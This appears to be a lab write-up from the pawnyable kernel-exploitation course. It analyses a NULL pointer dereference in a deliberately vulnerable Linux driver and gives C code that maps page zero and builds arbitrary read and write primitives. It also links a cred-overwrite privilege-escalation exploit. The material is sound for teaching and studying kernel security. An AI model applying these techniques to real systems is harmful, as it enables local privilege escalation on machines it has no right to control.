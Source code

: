 # NULL Pointer Dereference

Practice from [1].

[1] https://pawnyable.cafe/linux-kernel/LK02/null_ptr_deref.html


## mmap_min_addr

*mmap_min_addr* limits the lowest address that can be mapped from userland. It
is a non-zero value by default, but is set to 0 in our target.

~~~sh
/ $ cat /proc/sys/vm/mmap_min_addr
0
~~~

> NOTE: This chapter attacks work only when SMAP and *mmap_min_addr* security
> mechanims are not present.

## struct file

File descriptors are used when manipulating drivers from user space, but
they are received as `struct file` on the kernel side.

The *file* structure has file-specific information, such as the cursor
position. It has a member that kernel modules are free to use:
`private_data`.

~~~c
File: include/linux/fs.h

struct file {
        union {
                struct llist_node       fu_llist;
                struct rcu_head         fu_rcuhead;
        } f_u;
        struct path             f_path;
        struct inode            *f_inode;       /* cached value */
        const struct file_operations    *f_op;

        /*
         * Protects f_ep_links, f_flags.
         * Must not be taken from IRQ context.
         */
        spinlock_t              f_lock;
        enum rw_hint            f_write_hint;
        atomic_long_t           f_count;
        unsigned int            f_flags;
        fmode_t                 f_mode;
        struct mutex            f_pos_lock;
        loff_t                  f_pos;
        struct fown_struct      f_owner;
        const struct cred       *f_cred;
        struct file_ra_state    f_ra;

        u64                     f_version;
#ifdef CONFIG_SECURITY
        void                    *f_security;
#endif
        /* needed for tty driver, and maybe others */
        void                    *private_data;

#ifdef CONFIG_EPOLL
        /* Used by fs/eventpoll.c to link all the hooks to this file */
        struct list_head        f_ep_links;
        struct list_head        f_tfile_llink;
#endif /* #ifdef CONFIG_EPOLL */
        struct address_space    *f_mapping;
        errseq_t                f_wb_err;
} __randomize_layout
~~~

> NOTE: If data was stored there in LK01 modules, there would be no conflicts.

## Vulnerability

`xor()` accesses `ctx` without checking it is not NULL, neither does its caller `module_ioctl()`:

~~~c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL;
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  request_t req;
  XorCipher *ctx;

  if (copy_from_user(&req, (void*)arg, sizeof(request_t)))
    return -EINVAL;

  ctx = (XorCipher*)filp->private_data;

  switch (cmd) {
...
    case CMD_ENCRYPT:
    case CMD_DECRYPT:
      return xor(ctx);
...
~~~

Find test program and crashdump in:
- [src/01.angus-test/angus-test.c](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/01.angus-test/angus-test.c)
- [src/01.angus-test/crashdump](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/01.angus-test/crashdump)

## Exploitation

Normally, when the first argument of the `mmap(2)` function is 0 (NULL), the
kernel chooses the (page-aligned) address at which to create the mapping. Flag
`MAP_FIXED`, however, tells the kernel to place the mapping at exactly that
address.

~~~c
  if (mmap(0, 0x1000, PROT_READ|PROT_WRITE,
           MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE|MAP_POPULATE,
           -1, 0) != NULL)
    fatal("mmap");
~~~

> NOTE: This will fail when `mmap_min_addr` has a higher value
> ~~~sh
> $ cat /proc/sys/vm/mmap_min_addr
> 65536
> ~~~

### Address-Arbitrary-Read

Uses ioctl command `CMD_GETDATA`, when the `filp->private_data` has not been previously
initialized -- `CMD_INIT` not called -- and therefore has NULL value, as it is the value it
assigned by `module_open()`. Since we control the contents at NULL address, we
can determine the source address (`ctx->data`) the ioctl will read from.

~~~c
static int module_open(struct inode *inode, struct file *filp) {
  filp->private_data = NULL;
  return 0;
}
~~~

~~~c
static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  request_t req;
  XorCipher *ctx;

  if (copy_from_user(&req, (void*)arg, sizeof(request_t)))
    return -EINVAL;

  ctx = (XorCipher*)filp->private_data;

  switch (cmd) {
...
    case CMD_GETDATA:
      if (!ctx->data) return -EINVAL;
      if (!req.ptr || req.len > ctx->datalen) return -EINVAL;
      if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
      break;
...
}
~~~

AAR implementation:

~~~c
File: angus-aar.c

// Reads into `dst`, `len` bytes from address pointed by `src`
void AAR(char *dst, char *src, size_t len) {
  // Point the `data` member of XorCipher at address 0, to the `src` address.
  nullptr->data = src;
  nullptr->datalen = len;
  // Read the string pointed by the `data` pointer at address Null + 8, using
  // the ioctl
  angus_getdata(dst, len);
}
~~~

### Address-Arbitrary-Write

Uses the `xor()` function -- and its reverse operation properties --, to write
the data at the address pointed by `ctx->data`, where `ctx` is NULL and
controlled by the attacker.

~~~c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL;
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}
~~~

`ctx->data` is the address we want to write to, which we cannot modify from
userspace. What we can do is read its content before the xor operation -- by
using the previously define AAR --, that we will use to xor in our exploit with
the value we pretend to write. The result of the xor will be used as the key
(`ctx->key`) which the attacker controls. The AAW implementation is as follows:

~~~c
File: angus-aar.c

// Writes to `dst` whatever content is pointed by `src` with length `len`.
void AAW(char *dst, char *src, size_t len) {
  // Since AAW is performed with xor, read the original data first
  char *tmp = (char*)malloc(len);
  if (tmp == NULL) fatal("malloc");
  AAR(tmp, dst, len);

  // Adjust so that it becomes the data you want to write by xor
  for (size_t i = 0; i < len; i++)
    tmp[i] ^= src[i];

  // Write
  nullptr->data = dst;
  nullptr->datalen = len;
  nullptr->key = tmp;
  nullptr->keylen = len;
  angus_encrypt();

  free(tmp);
}
~~~

- AAR/AAW test in [src/02.angus-aar/angus-aar.c](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/02.angus-aar/angus-aar.c)
- Exploit that escalates privileges by modifying *struct cred* in [src/03.angus-exploit/angus-exploit.c](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/03.angus-exploit/angus-exploit)
